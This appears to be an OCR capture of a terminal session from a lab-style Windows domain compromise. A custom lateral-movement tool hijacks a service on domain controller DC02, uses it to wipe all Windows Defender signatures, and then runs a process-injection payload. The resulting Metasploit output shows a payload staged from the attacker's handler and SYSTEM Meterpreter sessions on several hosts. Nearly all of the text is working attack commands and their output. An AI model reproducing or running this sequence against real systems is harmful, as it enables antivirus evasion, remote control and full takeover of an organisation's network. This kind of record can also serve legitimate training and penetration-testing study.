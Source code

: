 c:\Users\Public\Downloads>lat.exe dc02 SensorService c:\\process_inject.exe
lat.exe dc02 SensorService c:\\process_inject.exe
Got handle on SCManager on dc02: 2329631794944.
Got handle on target service SensorService: 2329631795760.
Overwrote service executable to become '"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All', result: True.
Launched service, defender signatures should be wiped.
Overwrote service executable to become 'c:\\process_inject.exe', result: True.
Launched service. Check for execution!
Restored service binary to 'C:\Windows\system32\svchost.exe -k LocalSystemNetworkRestricted -p', result: True.

c:\Users\Public\Downloads>
[!] https://192.168.49.96:443 handling request from 192.168.96.130; (UUID: i3lpnx2z) Without a database connected that payload UUID tracking will not work!
[*] https://192.168.49.96:443 handling request from 192.168.96.130; (UUID: i3lpnx2z) Staging x64 payload (201308 bytes) ...
[!] https://192.168.49.96:443 handling request from 192.168.96.130; (UUID: i3lpnx2z) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 5 opened (192.168.49.96:443 -> 127.0.0.1) at 2021-08-29 06:11:25 +0000


c:\Users\Public\Downloads>exit
exit
meterpreter > sessions 5
[*] Backgrounding session 4...
[*] Starting interaction with 5...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EVIL
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > bg
[*] Backgrounding session 5...
msf6 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  1         meterpreter x64/windows  IIS APPPOOL\DefaultAppPool @ WEB01  192.168.49.96:443 -> 127.0.0.1 (192.168.96.132)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WEB01         192.168.49.96:443 -> 127.0.0.1 (192.168.96.132)
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ TEST          192.168.49.96:443 -> 127.0.0.1 (192.168.96.100)
  4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ FILE01        192.168.49.96:443 -> 127.0.0.1 (192.168.96.131)
  5         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DC02          192.168.49.96:443 -> 127.0.0.1 (192.168.96.130)
